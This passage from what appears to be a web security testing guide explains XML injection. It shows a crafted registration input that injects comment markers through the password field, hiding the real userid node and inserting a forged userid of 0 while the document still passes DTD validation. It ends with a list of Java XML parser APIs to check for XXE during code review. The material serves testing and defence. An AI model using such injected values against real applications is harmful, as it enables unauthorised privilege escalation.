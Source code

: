 Note that the userid node is defined with cardinality 1. In this case, the attack we have shown before (and other simple attacks) will not work, if the XML document is validated against its DTD before any processing occurs.

However, this problem can be solved, if the tester controls the value of some nodes preceding the offending node (userid, in this example). In fact, the tester can comment out such node, by injecting a comment start/end sequence:

```txt
Username: tony
Password: Un6R34kb!e</password><!--
E-mail: --><userid>0</userid><mail>s4tan@hell.com
```

In this case, the final XML database is:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<users>
    <user>
        <username>gandalf</username>
        <password>!c3</password>
        <userid>0</userid>
        <mail>gandalf@middleearth.com</mail>
    </user>
    <user>
        <username>Stefan0</username>
        <password>w1s3c</password>
        <userid>500</userid>
        <mail>Stefan0@whysec.hmm</mail>
    </user>
    <user>
        <username>tony</username>
        <password>Un6R34kb!e</password><!--</password>
        <userid>500</userid>
        <mail>--><userid>0</userid><mail>s4tan@hell.com</mail>
    </user>
</users>
```

The original `userid` node has been commented out, leaving only the injected one. The document now complies with its DTD rules.

## Source Code Review

The following Java API may be vulnerable to XXE if they are not configured properly.

- javax.xml.parsers.DocumentBuilder
- javax.xml.parsers.DocumentBuildFactory
- org.xml.sax.EntityResolver
- org.dom4j.*
- javax.xml.parsers.SAXParser
- javax.xml.parsers.SAXParserFactory
- TransformerFactory
- SAXReader
- DocumentHelper
- SAXBuilder
- SAXParserFactory
- XMLReaderFactory
- XMLInputFactory
- SchemaFactory
- DocumentBuilderFactoryImpl
- SAXTransformerFactory
- DocumentBuilderFactoryImpl
- XMLReader
- Xerces: DOMParser, DOMParserImpl, SAXParser, XMLParser
